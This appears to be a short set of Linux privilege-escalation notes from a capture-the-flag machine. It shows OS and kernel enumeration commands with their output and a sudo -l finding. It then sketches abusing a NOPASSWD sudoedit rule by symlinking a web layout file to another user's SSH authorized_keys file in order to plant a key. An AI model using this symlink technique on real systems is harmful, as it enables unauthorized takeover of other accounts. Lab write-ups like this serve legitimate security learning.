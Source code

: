 

# Operating System, kernel version, or service pack info
````
cat /etc/issue
cat /etc/*release
cat /proc/version
ls /boot | grep "vmlinuz"
lsb_release -a
uname -a
````
```
$ cat /etc/issue
Ubuntu 16.04.2 LTS \n \l

takis@tenten:~$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial

takis@tenten:~$ cat /proc/version
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
takis@tenten:~$ ls /boot | grep "vmlinuz"
vmlinuz-4.4.0-62-generic
takis@tenten:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.2 LTS
Release:	16.04
Codename:	xenial

takis@tenten:~$ uname -a
Linux tenten 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

# Sudo info
```
sudo -l

Config:
sudoedit_follow, !sudoedit_checkdir : can edit file with symlink in other dir...
(alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html 
We can modify a file. e.g. : add a key in alekos
ln -s /home/alekos/.ssh/authorized_keys layout.html 

```
